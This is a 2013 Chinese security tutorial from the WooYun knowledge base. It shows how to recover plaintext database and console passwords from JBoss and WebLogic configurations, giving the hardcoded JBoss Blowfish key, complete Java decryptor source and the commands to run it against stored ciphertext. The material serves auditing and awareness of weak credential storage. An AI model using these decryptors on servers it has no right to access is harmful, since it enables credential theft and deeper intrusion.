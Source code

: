 # 解密 JBoss 和 Weblogic 数据源连接字符串和控制台密码

2013/07/25 19:39 | [insight-labs](http://drops.wooyun.org/author/insight-labs "由 insight-labs 发布")![](img/img1_u56_png.jpg)   | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章")  | 占个座先  | 捐赠作者

### 0x00 背景

* * *

现在越来越多的站喜欢用 java 语言的框架做 web 应用了，这里应用有很多大型站点经常采用 jboss 或者 weblogic 做 web 服务器。出于安全原因，他们都提供把数据源连接密码以及 web 服务器后台密码加密的功能，jboss 用的是 blowfish，weblogic 旧版的加密算法一般为 3DES，新版的则都是 AES。

这几种加密算法都是可逆的，因为在 web 服务器连接到数据库的时候还是要把密码解密成明文之后发过去或者和 challenge 运算的，所以我们有了两个突破口，第一个就是，解密后的明文密码必然保留在内存中，如果把 web 服务器的内存空间 dump 下来分析是肯定可以找到明文密码的，这个方法在前段时间 hip 发的 memory forensic 文章里有涉及到。第二个方法就是，调用服务器程序自身的解密函数，让它把明文 echo 出来。

### 0x01 JBoss 解密

* * *

jboss 的数据库连接密码一般存在

```
%JBOSS_HOME%\server\%appname%\deploy 
```

下面的各种 xml 里面，比如 oracle 的是 oracle-ds.xml,mysql 是 mysql-ds.xml…… 在没有加密的情况下，密码是这么保存的：

```
<jndi-name>OracleDS</jndi-name>   //jndi 名字
<use-java-context>false</use-java-context>
<connection-url>jdbc:oracle:thin:@localhost:1521:orcl</connection-url>  //URL 地址
<driver-class>oracle.jdbc.driver.OracleDriver</driver-class>  //驱动
<user-name>root</user-name>    //用户名
<password>123456</password>  //密码 
```

在配置完密码加密后，这个文件里要么没有 username 和 password，要么被 comment 掉了。下面多了个 EncryptDBPassword
加密后的密码存在 jboss 目录的 conf/login-config.xml 文件里：

```
<application-policy name="EncryptDBPassword">
    <authentication>
        <login-module code="org.jboss.resource.security.SecureIdentityLoginModule" flag="required">
            <module-option name="username">admin</module-option>
            <module-option name="password">5dfc52b51bd35553df8592078de921bc</module-option>
            <module-option name="managedConnectionFactoryName">jboss.jca:name=PostgresDS,service=LocalTxCM</module-option>
        </login-module>
    </authentication>
</application-policy> 
```

5dfc52b51bd35553df8592078de921bc 就是加密后的密文了，有的时候前面还有个符号，也是密文的一部分。

jboss 用来加密的 key 是明文硬编码在 jboss 源码里的，key 是 jaas is the way

解密过程：

找个能编译 java 的环境或者在线的 java 编译执行网站：编译以下代码：

```
import java.math.BigInteger;

/*
* JBoss.java - Blowfish encryption/decryption tool with JBoss default password
*    Daniel Martin Gomez <daniel @ ngssoftware.com> - 03/Sep/2009
*
* This file may be used under the terms of the GNU General Public License
* version 2.0 as published by the Free Software Foundation:
*   http://www.gnu.org/licenses/gpl-2.0.html
*/
import javax.crypto.*;
import javax.crypto.spec.SecretKeySpec;

public class JBoss {
    public static void main(String[] args) throws Exception {
        if ((args.length != 2) ||
                !(args[0].equals("-e") | args[0].equals("-d"))) {
            System.out.println(
                "Usage:\n\tjava JBoss <-e|-d> <encrypted_password>");

            return;
        }

        String mode = args[0];

        byte[] kbytes = "jaas is the way".getBytes();
        SecretKeySpec key = new SecretKeySpec(kbytes, "Blowfish");
        Cipher cipher = Cipher.getInstance("Blowfish");

        String out = null;

        if (mode.equals("-e")) {
            String secret = args[1];
            cipher.init(Cipher.ENCRYPT_MODE, key);

            byte[] encoding = cipher.doFinal(secret.getBytes());
            out = new BigInteger(encoding).toString(16);
        } else {
            BigInteger secret = new BigInteger(args[1], 16);
            cipher.init(Cipher.DECRYPT_MODE, key);

            byte[] encoding = cipher.doFinal(secret.toByteArray());
            out = new String(encoding);
        }

        System.out.println(out);
    }
} 
```

编译后执行，用 -d 参数解密，比如

```
java JBoss -d 5dfc52b51bd35553df8592078de921bc 
```

就会返回明文密码。

### 0x02 Weblogic 解密

* * *

weblogic 要稍微复杂一些，jboss 的加密函数是 java 代码里面的，但是 weblogic 是自己写的，所以解密程序也需要调用 weblogic 的代码包。WebLogic 11gR1 后采用了 AES 的加密方式，之前的版本采用的 DES 加密方式。另外，每个 Weblogic app 的加密 key 都是随机生成的，所以不同服务器甚至同服务器不同应用上的 weblogic 都是用不同的密码加密的，这一点上比 jboss 安全很多。但是，毕竟连数据库的时候还是要还原，所以还是可以解密的。解密过程如下：

加密 key 都保存在 securitySerializedSystemIni.dat 文件中,比如

weblogic 安装目录

```
\user_projects\domains\APPNAME\securitySerializedSystemIni.dat 
```

有些版本是放到 security 目录里的，一个应用里面只会有一个这个文件，find 一下就找到了。

找到后把它复制到其他的文件夹，比如\tmp 下面

在这个文件夹下新建一个 java 文件，Decrypt.java，名字不能错，必须和内容的 class 名字一样。

```
import weblogic.security.internal.*;
import weblogic.security.internal.encryption.*;

import java.io.PrintStream;

public class Decrypt {
    static EncryptionService es = null;
    static ClearOrEncryptedService ces = null;

    public static void main(String[] args) {
        String s = null;

        if (args.length == 0) {
            s = ServerAuthenticate.promptValue("Password: ", false);
        } else if (args.length == 1) {
            s = args[0];
        } else {
            System.err.println("Usage: java Decrypt [ password ]");
        }

        es = SerializedSystemIni.getExistingEncryptionService();

        if (es == null) {
            System.err.println("Unable to initialize encryption service");

            return;
        }

        ces = new ClearOrEncryptedService(es);

        if (s != null) {
            System.out.println("\nDecrypted Password is:" + ces.decrypt(s));
        }
    }
} 
```

根据目标的操作系统，在 weblogic 目录中找到 setWLSEnv.cmd 或者 setWLSEnv.sh 并且执行。执行后会出来一长串环境变量，分别是 CLASSPATH 和 PATH。但是有些情况下这些环境变量没有加进去，所以还需要执行一下(linux 下，windows 一般不会出现这个情况)

```
export $CLASSPATH 
```

如果这个命令执行完也出来一串东西，那就说明环境变量设置正确，如果没有的话，则需要在 shell 里手动执行。把之前执行 setWLSEnv.sh 出来的两个环境变量分别复制然后 export 一下就行。再执行以下 export $CLASSPATH 确认是否加上了。成功后就可以进行下一步了。

weblogic 的数据库字符串一般存在 weblogic 下面应用目录的 conf 里面，也是 xml 格式，加密后的密码格式为

```
{AES}JBkrUhrV6q2aQDnPA2DWnUuZWLxzKz9vBMFfibzYAb8= 
```

或者

```
{3DES}JBkrUhrV6q2aQDnPA2DWnUuZWLxzKz9vBMFfibzYAb8= 
```

到之前放 Decrypt.java 的目录执行 javac Decrypt.java 然后执行 java Decrypt 加密后密码，比如

```
java Decrypt {AES}JBkrUhrV6q2aQDnPA2DWnUuZWLxzKz9vBMFfibzYAb8= 
```

执行完后就会告诉你 Decrypted Password is : weblogic

weblogic 的控制台密码也是用同样的方式加密的。

**Tags:** [JBoss](http://drops.wooyun.org/tag/jboss), [Weblogic](http://drops.wooyun.org/tag/weblogic), [字符串](http://drops.wooyun.org/tag/%e5%ad%97%e7%ac%a6%e4%b8%b2), [解密](http://drops.wooyun.org/tag/%e8%a7%a3%e5%af%86)

版权声明：未经授权禁止转载 [insight-labs](http://drops.wooyun.org/author/insight-labs "由 insight-labs 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Hacking weblogic](http://drops.wooyun.org/tips/402)
*   [JBoss 安全问题总结](http://drops.wooyun.org/papers/178)
*   [Hibernate 对注入的简单测试](http://drops.wooyun.org/tips/748)
*   [攻击 JavaWeb 应用[3]-SQL 注入[1]](http://drops.wooyun.org/tips/236)
*   [Flash CSRF](http://drops.wooyun.org/tips/688)
*   [攻击 JavaWeb 应用[5]-MVC 安全](http://drops.wooyun.org/tips/347)